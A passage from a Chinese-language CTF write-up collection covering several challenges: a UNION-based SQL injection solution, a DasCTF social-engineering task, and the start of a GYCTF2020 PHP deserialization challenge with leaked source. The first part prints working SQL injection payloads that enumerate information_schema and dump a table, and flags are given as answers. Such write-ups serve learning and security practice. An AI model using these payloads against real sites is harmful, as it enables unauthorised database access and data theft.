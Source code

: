 > ["1","code"]

查列

```mysql
url/query?search=amazonis_planitia union select 1,group_concat(column_name) from information_schema.columns where table_schema='alien_code' and table_name='code'
```

> ["1","id,code"]

查数据

```mysql
url/query?search=amazonis_planitia union select 1,group_concat(code) from alien_code.code
```

> ["1","flag{8960d9d6-f9f7-43d7-9396-09f3dc305e0d}"]

### [DasCTF2021]寒王'sblog

社会工程题目，题目给出了解 flag 的步骤，但是没给出 `flag.jpg`。

直接去他的 gitee 上找找，在近期动态里可以找到。

![](https://gitee.com/R1ta_Violet/blogimg/raw/master/imgs/image-20210902145623591.png)

然后按照题目给出的步骤走就可以拿到 flag 了。

> flag{50aa7fe02602264e7d8102746416cd74}

### [GYCTF2020]Easyphp

#### www.zip文件泄露 + php反序列化字符逃逸

www.zip泄露出源码，可利用的有update.php

```php
<?php
require_once('lib.php');
echo '<html>
<meta charset="utf-8">
<title>update</title>
<h2>这是一个未完成的页面，上线时建议删除本页面</h2>
</html>';
if ($_SESSION['login']!=1){
	echo "你还没有登陆呢！";
}
$users=new User();
$users->update();
if($_SESSION['login']===1){
	require_once("flag.php");
	echo $flag;
}
?>
```
